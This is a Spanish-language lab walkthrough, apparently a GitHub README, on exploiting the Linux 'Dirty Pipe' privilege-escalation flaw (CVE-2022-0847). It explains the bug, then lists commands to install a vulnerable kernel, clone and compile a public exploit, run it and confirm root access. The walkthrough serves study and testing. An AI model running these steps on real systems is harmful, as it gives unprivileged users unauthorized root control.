 # Explotación de la vulnerabilidad de escalación de privilegios “Dirty Pipe”

Identificada con CVE 2022-0847. Permite sobrescribir el contenido de cualquier archivo en el caché de página, incluso si no es permitido que el archivo sea escrito, o si éste es inmutable; causando de que sea posible que un atacante malicioso sin privilegios en el equipo pueda realizar la técnica de explotación conocida como “elevación de privilegios” y tome posesión de este al permitirle abrir una terminal de usuario “*root*”. Principalmente debido a que el kernel siempre puede escribir en el caché de página, haciendo que escribir datos a un canal nunca requiera de ningún permiso.

![image](https://i.imgur.com/fyJ8hG3.png)

# Explotación de la vulnerabilidad

Primero se hablará de los prerequisitos a la explotación y luego se procederá a detallar los pasos a seguir para la explotación.

## Prerequisitos
1. Contar con Linux y una  versión del kernel distinta a:  5.16.11, 5.15.25 y 5.10.102.
> Verificar con:
> 
> uname -r
2. Actualizar todas las dependencias y paquetes del OS
> sudo apt update 
> 
> sudo apt upgrade
3. Descargar el Ubuntu Kernel Mainline  Installer e instalar una versión del kernel vulnerable.
> sudo add-apt-repository ppa:cappelikan/ppa
> 
> sudo apt install mainline
4. Ingresar a Advanced  Settings en el boot  menu.
5. Seleccionar la versión del kernel descargada.
6. Descargar el exploit de Github e instalar la librería gcc.
>sudo apt install gcc

## Explotación de la vulnerabilidad
1. Clonar el repositorio de Github que contiene el exploit:
> https://github.com/AlexisAhmed/CVE-2022-0847-DirtyPipe-Exploits
2. Ejecutar el compilador del exploit:
> chmod +x compile.sh
> 
> ./compile.sh
3. Ejecutar el exploit compilado:
> ./exploit-1

El resultado debe ser el siguiente:
![image](https://i.imgur.com/vc650oe.png)

4. Comprobar la ejecución del exploit:
> id
> whoami

![image](https://i.imgur.com/UrhDZQj.png)
#### De lo presentado anteriormente se puede apreciar que el escalamiento de privilegios fue exitoso, permitiéndole a un usuario sin privilegios, hacer uso de esta vulnerabilidad para cambiar la contraseña del usuario “_root_” y logrando obtener una consola con estos privilegios.
